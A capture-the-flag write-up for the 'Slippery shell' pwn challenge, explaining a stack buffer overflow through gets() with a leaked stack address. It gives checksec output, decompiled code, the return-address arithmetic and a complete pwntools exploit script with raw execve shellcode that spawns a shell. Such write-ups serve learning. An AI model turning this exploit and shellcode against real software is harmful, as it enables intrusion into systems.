 # Slippery shell
![chall](challenge.png)
![first-blood](first-blood.png)

# Vanilla stack-based buffer overflow - Jump to shellcode

We are given a binary that prompts us for a name as input and also leaks the address of the stack. After looking at the protections of the binary we see that most of the crucial protections are turned off which means we have total control of the program and can therefore jump to our own shellcode.

# Analysis

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
After running `checksec` on the binary we see that the `NX`, `PIE` and `Canary` protections are disabled. This means that if we find a vulnerability in the binary we have total freedom to do whatever we want and most importantly run our own shellcode because the `NX` bit is disabled.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  printf("Your id is %p\n", v4);
  printf("Please enter your name! ");
  gets(v4);
  return 0;
}
```
Decompiling the main function we can see that our input buffer `v4` gets passed to a dangerous function `gets()` And that a pointer to our input is printed to stdout by `printf()` Now we have all the necessary pieces to the puzzle to build out our exploit.

1. Find the overflow offset
2. overwrite RIP with the leaked stack pointer
3. Get shell


This sounds pretty easy but lets breakdown an important element in our exploit. We want the `RIP` register to point to our shellcode on the stack, when we overwrite the return address to be the leaked stack pointer we are only pointing to the start of the buffer (our padding). Let's look at some code

```python
padding = b"A"*24
RIP = p64(int(stack_addr, 16) + len(padding) + 8)
shellcode = b"shellcode here"
payload = padding + RIP + shellcode
```

We start off with our padding of `24 bytes` then we get to the important bit, we convert the stack pointer value to an integer to deal with some calculations a bit easier. We start with the stack pointer and add the lenght of the padding to our stack pointer, now instead of pointing to our padding we are pointing to `RIP`. Since our end goal is to point to our shellcode we want to move past `RIP` and we can do that by adding `8 bytes` worth of padding (x64 address size) which makes us now point to our shellcode, then we convert the value to a x64 address with `p64()`. Now we are ready to ship our payload

```python

#!/usr/bin/python3
from pwn import *

context.log_level = 'debug'

if args.REMOTE:
    p = remote('ggc.tf', 32222)
else:
    p = process('./slippery_shell')

stack_addr = p.recvline().strip().split()[-1]
log.success("Stack addr: {}".format(stack_addr.decode('latin-1')))

padding = b"A"*24
RIP = p64(int(stack_addr, 16) + len(padding) + 8)
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" # 23 byte shellcode
payload = padding + RIP + shellcode

p.sendline(payload)
p.interactive()

# FLAG: gg{Sl1p_n_s1d1n_thru_th3_st4ck!}
# Shellcode: https://www.exploit-db.com/exploits/46907
```
